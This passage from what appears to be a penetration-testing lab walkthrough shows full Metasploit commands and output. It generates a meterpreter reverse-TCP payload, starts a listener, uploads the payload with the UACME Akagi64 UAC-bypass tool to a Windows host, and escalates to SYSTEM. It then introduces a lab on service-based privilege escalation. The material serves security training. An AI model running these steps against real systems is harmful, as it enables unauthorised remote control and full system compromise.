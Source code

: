 `background`, `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.10 LPORT=1234 -f exe -o /root/reverse_tcp64.exe`:
``` 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: /root/reverse_tcp64.exe
```

`search handler`, `use exploit/multi/handler`, `unset PAYLOAD`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.4.10`, `set LPORT 1234`, `exploit -j`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.4.10:1234
```

`ls -l /root/Desktop/tools/UACME`:
```
total 196K
-rwxrwxrwx 1 root root 195K Jan 20  2022 Akagi64.exe
```

`sessions -i 1`, `pwd`, `dir`, `cd C:\\Users\\admin\\AppData\\Local\\Temp`, `upload /root/reverse_tcp64.exe .`, `upload /root/Desktop/tools/UACME/Akagi64.exe .`, `shell`, `dir`, `Akagi64.exe 10 C:\\Users\\admin\\AppData\\Local\\Temp\\reverse_tcp64.exe`.

`exit`, `background`, `sessions`, `sessions -i 2`, `getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

---

### Privilege Escalation Via Services - Lab

In this lab, you will learn to find and exploit a vulnerable application to practice different privilege escalation techniques.

In this lab environment, the user will get access to a Kali GUI instance. A vulnerable application can be accessed using the tools installed on Kali on http://demo.ine.local.

Objective: Perform privilege escalation through misconfigured service.

The best tools for this lab are:
- Metasploit Framework
- Nmap

---

